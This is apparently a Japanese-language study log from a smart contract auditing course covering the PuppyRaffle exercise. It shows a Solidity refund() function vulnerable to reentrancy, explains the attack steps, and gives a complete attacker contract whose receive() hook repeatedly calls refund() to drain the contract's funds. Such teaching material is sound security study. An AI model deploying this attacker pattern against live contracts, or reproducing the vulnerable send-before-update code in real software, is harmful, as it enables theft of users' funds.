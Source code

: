 **重要な学習ポイント**:
- **観測可能性の最小化**: 外部パラメータの削除
- **内部計算による解決**: msg.senderベースの実装
- **MEV耐性設計**: フロントランニング攻撃の根本的防止

#### リエントランシー攻撃脆弱性の実証（2025-08-18）

**PuppyRaffle::refund()関数のリエントランシー脆弱性**

**脆弱性のあるコード**:
```solidity
// src/PuppyRaffle.sol:118-125
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    // @audit reentrancy - 状態更新前の外部呼び出し
    payable(msg.sender).sendValue(entranceFee);
    players[playerIndex] = address(0); // ← 状態更新が後
    emit RaffleRefunded(playerAddress);
}
```

**攻撃の仕組み**:
1. **初期参加**: 攻撃コントラクトがラッフルに参加
2. **refund呼び出し**: `refund()`を呼び出して返金開始
3. **リエントランシー**: `sendValue()`でETH受信時に`receive()`がトリガー
4. **状態確認**: `players[playerIndex]`がまだ無効化されていない
5. **再帰攻撃**: 同じindexで再度`refund()`を呼び出し
6. **資金枯渇**: コントラクトの全資金を盗取

**実装された攻撃コントラクト**:
```solidity
contract ReentrancyAttacker {
    PuppyRaffle public puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex); // 最初の攻撃開始
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex); // リエントランシー攻撃
        }
    }

    receive() external payable {
        _stealMoney(); // ETH受信時に再帰攻撃
    }
}
```
